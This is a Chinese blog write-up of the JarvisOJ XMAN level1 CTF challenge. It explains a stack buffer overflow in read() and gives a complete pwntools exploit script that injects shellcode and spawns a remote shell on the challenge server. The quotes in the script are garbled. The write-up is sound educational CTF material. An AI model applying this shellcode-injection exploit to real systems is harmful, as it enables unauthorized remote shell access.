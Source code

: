 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel1题解
date: 2018-07-24 16:37:00
author:     "许大仙"
tags:
    - CTF
---
```


day2：XMANlevel1
题目链接：https://www.jarvisoj.com/challenges

## 一、初入pwn ##

![XMAN LEVEL1](/assets/img/xmanlevel1.jpg)

作为小白,甚至下载完level1.80eacdcd51aca92af7749d96efad7fb5都一脸懵逼。

按照pwn的思路，肯定是要反汇编的，所以level1应该是个可执行文件[即PE,ELF格式的文件]，显然这个后缀不对，linux下后缀应该为.out或者没有后缀。

故第一步把.80eacdcd51aca92af7749d96efad7fb删掉。

用ls命令查看，并没有可执行文件的特征[即没标绿加粗]，使用命令./level1，也依旧不能运行。

![binwalk](/assets/img/binwalk.jpg)

- 用binwalk查看，发现发现是32-bit的ELF格式的可执行文件。说明改后缀是对的。
- 但是按道理64位系统linux也可以执行这样的32位的文件的。

问题出在，linux文件默认权限。linux中文件默认权限最大为666,也就rw-rw-rw-[每个文件有所有者、所在组、其它组的概念,每个---对于一个概念下的权限]。目录默认权限最大为777。
所以文件本身是不可执行的，必须手动赋予执行权限。
[参考linux文件权限](https://blog.csdn.net/chengqiuming/article/details/78601977)

> chmod +x level1

> ./level1

这时候才执行level1了，ls命令查看level1变绿变粗

注：题目中nc pwn2.jarvisoj.com 9877，标识了域名nc pwn2.jarvisoj.com以及level1挂的端口。

## 二、XMAN level1题解 ##

### 解题思路 ###

本题的最终目标是得到一个受攻击服务器的shell[寻找服务器flag文件，找到flag]

尝试运行level1，有输入字符串的要求，很可能存在栈溢出攻击。

用checksec保护机制查看，NX没开，说明栈有可执行权限，并且canary未发现，那么使用简单的shellcode栈溢出攻击就可以了。

![checksec](/assets/img/checksec)

通过IDA反汇编level1，在main函数中观察到vulnerable_function函数的调用，说明脆弱性攻击点很可能在这个函数中，跟进.

![vulnerable_function](/assets/img/vul.jpg)

发现有read函数,会读取字节，暂存在栈中[&buf是栈中的地址],这样我们就找到了栈溢出点。根据参数入栈的顺序[先入栈的，参数位置最右]可以只知道read(0,&buf,0x100)[请求读0x100,如果到EOF就自动停止，只返回读到的部分的字节]，也就是说最多我们允许读取0x100字节，可以比0x100少。

![vulnerable_function](/assets/img/vul_func.jpg)

通过观察&buf的位置，存储在eax寄存器中，具体是ebp+buf=ebp-88h。在调用read之前，还调用了printf函数，这个函数将"What's this:%p?\n"和lea eax,[ebp+buf]以及push eax得到的&buf给打印出来了。所以连shellcode放置的首地址都给了。[只要用pwntools交互的时候，在收到的信息中进行截取就好]

栈中的情况是：

![栈帧图](/assets/img/zhan.jpg)

我们可以放置shellcode的缓冲区可以是0x88+0x4[0x4是旧ebp的位置]<0x100,所以read确实导致了栈溢出的危险。

以上是汇编代码的分析，还可以使用F5，观察C代码

![vulnerable_function函数的C代码](/assets/img/ccode_vul.jpg)

最终的payload构造：

![payload构造](/assets/img/payload.jpg)

### 解题步骤 ###

     1 #!/usr/bin/python
     2 # -*- coding: utf-8 -*-
     3 
     4 
     5 from pwn import *   #导入pwntools模块
     6 context(log_level = ‘debug‘, arch = ‘i386‘, os = ‘linux‘)  #被攻击服务器的环境为32位linux，这里进行一些环境设置为正常运行exp
     7  #比如32的汇编和64的汇编不同，如果不设置context会导致一些问题
     8 shellcode = asm(shellcraft.sh())  //获得产生bin/sh的shellcode代码，原理：调用默认库libc库中的system(“/bin/sh”)函数
     9 #  io = process(‘./level1‘)   #本地测试是调试用
    10 io = remote(‘pwn2.jarvisoj.com‘, 9877)  #进行远程链接
    11 text = io.recvline()[14: -2]  #接受到的一行字符串截取14到-2的部分[第15个字符到倒数第2个字符]
    12 #  print text[14:-2]  
    13 buf_addr = int(text, 16)  #将字符串"0xffeb9d30"转换为16进制数0xffeb9d30
    14 
    15 payload = shellcode + ‘\x90‘ * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr)   #p32(buf_addr)将数值0xffeb9d30转换为字符串
     [注意不是"0xffeb9d30"，而是0xff 0xeb 0x9d 0x30 ascii码对应的字符]
    16 io.send(payload)   #发送payload
    17 io.interactive()   #进行交互(得到服务器的shell，能对服务进行命令输入，操作)
    18 io.close()   #关闭交互


结果：

![flag](/assets/img/flag_level.jpg)




## 三、read函数补充 ##
ssize_t read(int fd, void *buf, size_t count);
会把参数fd所指的文件传送count个字节到buf指针所指的内存中[读上来的数据保存在缓冲区buf中，同时文件的当前读写位置向后移。如果buf指向栈，就会存在栈溢出的可能]。若参数nbyte为0，则read()不会有作用并返回0。返回值为实际读取到的字节数，如果返回0，表示已到达文件尾或无可读取的数据。错误返回-1,并将根据不同的错误原因适当的设置错误码。返回值类型是ssize_t，表示有符号的size_t。

read函数返回时，返回值说明了buf中前多少个字节是刚读上来的。有些情况下，**实际读到的字节数（返回值）会小于请求读的字节数count，例如：读常规文件时，在读到count个字节之前已到达文件末尾。例如，距文件末尾还有30个字节而请求读100个字节，则read返回30，下次read将返回0**。
